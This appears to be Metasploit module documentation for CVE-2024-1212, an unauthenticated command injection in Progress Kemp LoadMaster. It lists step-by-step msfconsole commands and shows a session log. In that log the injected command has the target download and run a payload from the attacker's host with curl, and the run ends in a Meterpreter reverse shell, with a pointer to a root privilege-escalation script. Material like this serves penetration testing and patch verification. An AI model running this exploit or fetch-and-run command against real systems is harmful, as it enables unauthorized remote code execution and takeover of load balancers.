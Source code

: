 ## Vulnerable Application
CVE-2024-1212: Progress Kemp LoadMaster Unauthenticated Command Injection

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/

https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212

A trial VM which the exploit should work against out of the box can be downloaded from:
https://sso.kemptechnologies.com/register/kemp/vlm

The AWS marketplace also has free trials which can be used. These require the "session management" to be enabled in order for the exploit to work. Since by default the admin WUI is behind basic auth.
https://aws.amazon.com/marketplace/pp/prodview-kgh3dsfk7qcnw

## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use exploits/linux/http/progress_kemp_loadmaster_unauth_cmd_injection`
1. Do: `set RHOSTS <target loadmaster>`
1. Do: `set RPORT <port loadmaster is running on>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the "bal" user.

## Scenarios

### LoadMaster 7.2.59.0.22007

``` msf
msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > show options

Module options (exploit/linux/http/progress_kemp_loadmaster_unauth_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.5.134.141     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                         asploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path to LoadMaster
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GyzwtIbxq        no        Name to use on remote system when storing payload; cannot contain spaces or slash
                                                  es
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp/            yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/progress_kemp_loadmaster_unauth_cmd_injection) > run

[*] Command to run on remote host: curl -so /tmp/JjWtQAwPaFq http://10.5.135.201:8080/RByzlSnTzclKDpvXskXIrg; chmod +x /tmp/JjWtQAwPaFq; /tmp/JjWtQAwPaFq &
[*] Fetch handler listening on 10.5.135.201:8080
[*] HTTP server started
[*] Adding resource /RByzlSnTzclKDpvXskXIrg
[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.5.134.141:443 is vulnerable...
[+] The target is vulnerable.
[*] Sending payload...
[*] Client 10.5.134.141 requested /RByzlSnTzclKDpvXskXIrg
[*] Sending payload to 10.5.134.141 (curl/7.77.0)
[+] Now background this session with "bg" and then run "resource run_progress_kemp_loadmaster_sudo_priv_esc.rc" to get a root shell
[*] Meterpreter session 7 opened (10.5.135.201:4444 -> 10.5.134.141:29064) at 2024-04-01 16:39:42 -0500

meterpreter > sysinfo
Computer     : 10.5.134.141
OS           : SuSE 7.2 (Linux 4.14.137)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: bal
meterpreter > 

```
